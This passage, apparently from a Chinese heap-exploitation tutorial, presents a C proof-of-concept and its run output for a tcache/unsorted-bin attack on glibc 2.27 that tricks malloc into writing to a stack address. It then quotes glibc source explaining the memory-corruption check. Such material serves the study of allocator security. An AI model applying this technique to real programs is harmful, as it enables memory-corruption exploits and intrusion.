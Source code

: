那么继续来看 libc-2.27 里怎么处理：
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    unsigned long stack_var = 0;
    fprintf(stderr, "The target we want to rewrite on stack: %p -> %ld\n\n", &stack_var, stack_var);

    unsigned long *p = malloc(0x80);
    unsigned long *p1 = malloc(0x10);
    fprintf(stderr, "Now, we allocate first small chunk on the heap at: %p\n",p);

    free(p);
    fprintf(stderr, "Freed the first chunk to put it in a tcache bin\n");

    p[0] = (unsigned long)(&stack_var);
    fprintf(stderr, "Overwrite the next ptr with the target address\n");
    malloc(0x80);
    malloc(0x80);
    fprintf(stderr, "Now we malloc twice to make tcache struct's counts '0xff'\n\n");

    free(p);
    fprintf(stderr, "Now free again to put it in unsorted bin\n");
    p[1] = (unsigned long)(&stack_var - 2);
    fprintf(stderr, "Now write its bk ptr with the target address-0x10: %p\n\n", (void*)p[1]);

    malloc(0x80);
    fprintf(stderr, "Finally malloc again to get the chunk at target address: %p -> %p\n", &stack_var, (void*)stack_var);
}
```
```
$ gcc -g tcache_unsorted_bin_attack.c
$ ./a.out 
The target we want to rewrite on stack: 0x7ffef0884c10 -> 0

Now, we allocate first small chunk on the heap at: 0x564866907260
Freed the first chunk to put it in a tcache bin
Overwrite the next ptr with the target address
Now we malloc twice to make tcache struct's counts '0xff'

Now free again to put it in unsorted bin
Now write its bk ptr with the target address-0x10: 0x7ffef0884c00

Finally malloc again to get the chunk at target address: 0x7ffef0884c10 -> 0x7f69ba1d8ca0
```
我们知道由于 tcache 的存在，malloc 从 unsorted bin 取 chunk 的时候，如果对应的 tcache bin 还未装满，则会将 unsorted bin 里的 chunk 全部放进对应的 tcache bin，然后再从 tcache bin 中取出。那么问题就来了，在放进 tcache bin 的这个过程中，malloc 会以为我们的 target address 也是一个 chunk，然而这个 "chunk" 是过不了检查的，将抛出 "memory corruption" 的错误：
```c
      while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
        {
          bck = victim->bk;
          if (__builtin_expect (chunksize_nomask (victim) <= 2 * SIZE_SZ, 0)
              || __builtin_expect (chunksize_nomask (victim)
				   > av->system_mem, 0))
            malloc_printerr ("malloc(): memory corruption");
```
那么要想跳过放 chunk 的这个过程，就需要对应 tcache bin 的 counts 域不小于 tcache_count（默认为7），但如果 counts 不为 0，说明 tcache bin 里是有 chunk 的，那么 malloc 的时候会直接从 tcache bin 里取出，于是就没有 unsorted bin 什么事了：
```c
  if (tc_idx < mp_.tcache_bins
      /*&& tc_idx < TCACHE_MAX_BINS*/ /* to appease gcc */
```